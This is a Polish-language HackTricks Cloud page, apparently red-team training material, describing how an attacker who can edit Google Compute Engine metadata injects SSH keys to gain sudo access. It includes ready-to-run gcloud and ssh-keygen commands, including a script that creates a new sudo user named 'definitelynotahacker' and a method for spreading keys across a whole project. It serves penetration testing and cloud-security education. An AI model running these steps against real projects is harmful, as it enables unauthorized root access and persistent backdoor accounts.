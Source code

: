 # GCP - Dodawanie niestandardowych metadanych SSH

{% hint style="success" %}
Dowiedz się i ćwicz Hacking AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Dowiedz się i ćwicz Hacking GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wesprzyj HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) na githubie.

</details>
{% endhint %}

## Modyfikacja metadanych <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

Modyfikacja metadanych na instancji może prowadzić do **znacznych ryzyk bezpieczeństwa, jeśli atakujący uzyska wymagane uprawnienia**.

### **Dodawanie kluczy SSH do niestandardowych metadanych**

Na GCP, **systemy Linux** często wykonują skrypty z [Python Linux Guest Environment dla Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). Istotnym elementem jest tu [demon kont](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), który jest zaprojektowany do **regularnego sprawdzania** punktu końcowego metadanych instancji w poszukiwaniu **aktualizacji autoryzowanych kluczy publicznych SSH**.

Dlatego jeśli atakujący może modyfikować niestandardowe metadane, może sprawić, że demon znajdzie nowy klucz publiczny, który zostanie przetworzony i **zintegrowany z lokalnym systemem**. Klucz zostanie dodany do pliku `~/.ssh/authorized_keys` istniejącego użytkownika lub potencjalnie utworzy nowego użytkownika z uprawnieniami `sudo`, w zależności od formatu klucza. Atakujący będzie w stanie skompromitować hosta.

### **Dodaj klucz SSH do istniejącego uprzywilejowanego użytkownika**

1. **Sprawdź Istniejące Klucze SSH na Instancji:**
- Wykonaj polecenie opisujące instancję i jej metadane, aby zlokalizować istniejące klucze SSH. Odpowiednią sekcją w wyniku będzie `metadata`, a konkretnie klucz `ssh-keys`.
```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
- Zwróć uwagę na format kluczy SSH: nazwa użytkownika poprzedza klucz, oddzielone dwukropkiem.

2. **Przygotuj plik tekstowy na metadane klucza SSH:**
- Zapisz szczegóły nazw użytkowników i odpowiadających im kluczy SSH do pliku tekstowego o nazwie `meta.txt`. Jest to istotne dla zachowania istniejących kluczy podczas dodawania nowych.

3. **Wygeneruj nowy klucz SSH dla docelowego użytkownika (`alice` w tym przykładzie):**
- Użyj polecenia `ssh-keygen`, aby wygenerować nowy klucz SSH, upewniając się, że pole komentarza (`-C`) odpowiada nazwie użytkownika docelowego.
```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
- Dodaj nowy klucz publiczny do `meta.txt`, naśladując format znaleziony w metadanych instancji.

4. **Zaktualizuj metadane klucza SSH instancji:**
- Zastosuj zaktualizowane metadane klucza SSH do instancji, używając polecenia `gcloud compute instances add-metadata`.
```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```

5. **Zaloguj się do instancji, używając nowego klucza SSH:**
- Połącz się z instancją za pomocą SSH, używając nowego klucza, uzyskując dostęp do powłoki w kontekście użytkownika docelowego (`alice` w tym przykładzie).
```bash
ssh -i ./key alice@localhost
sudo id
```

### **Utwórz nowego uprzywilejowanego użytkownika i dodaj klucz SSH**

Jeśli nie znaleziono interesującego użytkownika, można utworzyć nowego, który otrzyma uprawnienia `sudo`:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
### Klucze SSH na poziomie projektu <a href="#sshing-around" id="sshing-around"></a>

Możliwe jest poszerzenie zasięgu dostępu SSH do wielu maszyn wirtualnych (VM) w środowisku chmurowym poprzez **zastosowanie kluczy SSH na poziomie projektu**. Ten podejście umożliwia dostęp SSH do dowolnej instancji w ramach projektu, która nie zablokowała wyraźnie projektowych kluczy SSH. Oto zwięzły przewodnik:

1. **Zastosuj klucze SSH na poziomie projektu:**
- Użyj polecenia `gcloud compute project-info add-metadata`, aby dodać klucze SSH z pliku `meta.txt` do metadanych projektu. Ta czynność zapewnia, że klucze SSH są rozpoznawane we wszystkich maszynach wirtualnych w projekcie, chyba że instancja ma włączoną opcję "Zablokuj projektowe klucze SSH".
```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```

2. **SSH do instancji przy użyciu kluczy na poziomie projektu:**
- Dzięki projektowym kluczom SSH możesz łączyć się przez SSH z dowolną instancją w ramach projektu. Instancje, które nie blokują projektowych kluczy, zaakceptują klucz SSH, umożliwiając dostęp.
- Bezpośrednią metodą SSH do instancji jest użycie polecenia `gcloud compute ssh [INSTANCJA]`. Polecenie to używa twojej bieżącej nazwy użytkownika i kluczy SSH ustawionych na poziomie projektu do próby dostępu.


# Referencje
* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)
